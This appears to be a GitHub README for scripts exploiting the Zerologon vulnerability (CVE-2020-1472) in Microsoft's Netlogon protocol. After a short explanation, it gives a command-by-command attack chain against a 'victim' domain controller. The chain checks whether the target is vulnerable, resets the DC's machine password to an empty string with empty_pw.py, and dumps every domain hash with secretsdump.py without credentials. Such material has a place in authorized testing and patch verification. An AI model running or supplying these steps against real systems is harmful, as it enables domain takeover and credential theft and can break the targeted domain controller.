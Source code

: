 # Zerologon
Set of scripts, to test and exploit the zerologon vulnerability (CVE-2020-1472). 

![image](https://imgur.com/a/8gl8fGm)

***

# What is it?

ZeroLogon is a vulnerability that allows us to exploit a cryptography flaw in Microsoft's Active Directory Netlogon Remote Protocol (MS-NRPC), which allows users to log in to servers using NTLM. 

***

# Previous steps 

Before executing the exploit we must know that we need a different version of impacket, for this we will do the following. 

``> apt remove --purge impacket-scripts python3-impacket``

``> git clone https://github.com/SecureAuthCorp/impacket.git``

``> cd impacket``

``> pip install .``

***

# PoC (Proof Of Concept)

``git clone https://github.com/Nekoox/zerologon.git``

``cd zerologon``

``pip install -r requirements.txt``

## Check if the victim domain controller is vulnerable to zerologon.

``python3 tester.py <DC-NAME> <ip-address>``

In the event that the victim DC is vulnerable, a message will appear saying "Success! DC can be fully compromised by a Zerologon attack." 

Otherwise, that is, the victim DC is not vulnerable because the security hole has been patched, we will get the following message "Attack failed. Target is probably patched." 

***

## Change the password of the vulnerable domain controller to an empty string. 

``python3 empty_pw.py <DC-NAME> <ip-address>``

If the Domain Controller is vulnerable, after running the exploit it should not have any password. 


## Dump hashes of the Domain Controller. 

``> secretsdump.py -just-dc <DC-NAME>\$@<ip-address>``

By executing this, we will be able to see all the hashes of the domain, without any credentials. 

